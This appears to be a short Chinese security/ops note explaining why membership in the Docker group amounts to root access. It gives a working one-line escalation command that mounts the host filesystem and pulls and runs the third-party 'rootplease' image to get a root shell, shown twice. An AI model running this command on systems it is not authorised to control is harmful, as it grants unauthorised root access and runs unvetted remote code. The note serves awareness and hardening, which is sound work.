

# Docker 组提权

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BDocker%2B%E6%9D%83%E9%99%90%E7%AE%A1%E7%90%86-Docker%20%E7%BB%84%E6%8F%90%E6%9D%83.md)

> docker 组内用户执行命令的时候会自动在所有命令前添加 sudo。因为设计或者其他的原因，Docker 给予所有 docker 组的用户相当大的权力（虽然权力只体现在能访问 /var/run/docker.sock 上面）。默认情况下，Docker 软件包是会默认添加一个 docker 用户组的。Docker 守护进程会允许 root 用户和 docker
> 组用户访问 Docker。给用户提供 Docker 权限和给用户无需认证便可以随便获取的 root 权限差别不大。

docker组内用户执行如下命令，即可获得root权限

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease

#参数 -v 将容器外部的目录 / 挂载到容器内部 /hostOS
这个容器的启动脚本是 exploit.sh，主要内容是：chroot 到容器的 /hostOS （也就是宿主机的 /），然后获取到宿主机的 root 权限。
```

测试：

创建了个用户**dockertest**加入了docker组，然后执行如下命令，获得root权限

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```


